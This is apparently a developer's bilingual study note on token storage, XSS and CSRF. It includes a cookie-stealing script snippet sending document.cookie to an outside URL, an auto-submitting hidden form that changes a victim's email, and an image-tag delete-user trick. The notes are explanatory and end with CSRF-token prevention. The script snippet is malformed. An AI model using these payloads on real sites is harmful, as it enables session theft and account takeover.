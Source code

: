 ### How it work

1. Auth: cookies or localStorage

- Local Storage --> XSS attack
- Cookies --> CSRF attack

---

Khi login, server trả về token, mình sẽ lưu token ở đâu ? local storage or cookies

- Với cac trang liên quan tới tiền bạc thì nên lưu token hoặc các thông tin ở cookies -> vì nó an toàn hơn local storage

  > XSS Attack: hacker bằng 1 cách nào đó họ embed 1 đoạn malicious code into our website, and user not aware about this and user accidentally execute this code -> _can using **sanitize html** to clean this_

  ```html
  <script>
    src = "https://mysite.in?+document.cookie;";
  </script>
  ```

  > CSRF Attack: Người dùng vô tình click vào 1 link độc hại (có thể là chuyển tiền) -> với trường hợp này có thể dùng thêm xác thực 2 bước hoặc là phải nhập mã OTP để có thể chuyển tiền

---

**All the CSRF attacks almost related about `cookie`. if your site do not using cookie, ignore this vulnerability**

When a user tries to access a site, the browser often automatically includes the credentials in the request, to make the login process more convenient. These credentials may include the user’s session cookie, basic authentication credentials, IP address, and Windows domain credentials.

The risk inherent in this mechanism is that attackers can easily impersonate the user. Once a user passes the site’s identity verification, the site cannot differentiate between a forged request and a legitimate user request.

In a CSRF attack, an attacker assumes the victim’s identity, and uses it to perform actions on behalf of the user, without their consent. Attackers typically follow this process

They use social engineering techniques to persuade the victim to click a link via email, chat message, or similar form of communication.
Either the malicious link itself, or a web page the user visits, triggers a request to the targeted site
The request supposedly comes from the user, and takes advantage of the fact that the user is already signed into the website.
The website acknowledges the request and performs the attacker’s requested action, without the user’s knowledge or consent.
CSRF attacks typically attempt to change server state, but can also be used to gain access to sensitive data. If an attacker successfully performs a CSRF attack against the victim’s account, they can transfer funds, purchase a product, modify account information such as the shipping address, modify the password, or any other action available when the user is signed in.

### Example

1. Delete Users Bằng METHOD **GET**

Giả sử trong hệ thống các bạn có một action xử lý xóa người dùng với url như sau  
 `GET: https://domain.com/delete.php?id=12 HTTP/1.1`  
 Như vậy giả sử một người nào đó biết được URL này thì họ sẽ hack được, và họ sẽ lợi dụng chính admin của hệ thống. Họ sẽ gửi một email với nội dung là một hoặc nhiều thẻ hình ảnh (IMG) với SRC là url đó và mỗi hình có 1 id khác nhau, như vậy nếu admin đọc cái email đó thì trường hợp admin đang login vào hệ thống thì admin đã vô tình xóa đi những user như trong SRC của các hình trên. Đây là một ví dụ nho nhỏ điển hình thôi chứ trong thực tế ai lại đi làm chương trình xóa người dùng mà lại để cái ID to đùng trên kia :D, ấy mà đôi khi những bạn non tay nghề lại mặc phải đấy.

2. Attack by using CRSF token

A CSRF attack works as follows. While accessing the bank account, the user simultaneously browses some other websites. One of the sites ‘www.somesite.com’, contains a hidden form and a piece of JavaScript. As soon as the user visits the webpage, the browser silently submits the hidden form to ‘fictitiousbank.com’. The format and content of the request are exactly the same as the request triggered by the user clicking the submit button in the “pay bill” form provided by the bank. On sending the request, the user’s browser automatically attaches the authentication cookies to the request. Since the session is still active in the server, the request will be processed by the server as issued by the user.

let’s discuss an example of how this vulnerability can be exploited. Imagine your application has a /user/email route that accepts a POST request to change the authenticated user’s email address. Most likely, this route expects an email input field to contain the email address the user would like to begin using.

Without CSRF protection, a malicious website could create an HTML form that points to your application’s/user/email route and submits the malicious user’s own email address

```html
<form action="https://your-application.com/user/email" method="POST">
  <input type="”email”" value="”malicious-email@example.com”" />
</form>

<script>
  document.forms[0].submit();
</script>
```

If the malicious website automatically submits the form when the page is loaded, the malicious user only needs to lure an unsuspecting user of your application to visit their website and their email address will be changed in your application.

To prevent this vulnerability, we need to inspect every incoming POST, PUT, PATCH, or DELETE request for a secret session value that the malicious application is unable to access.

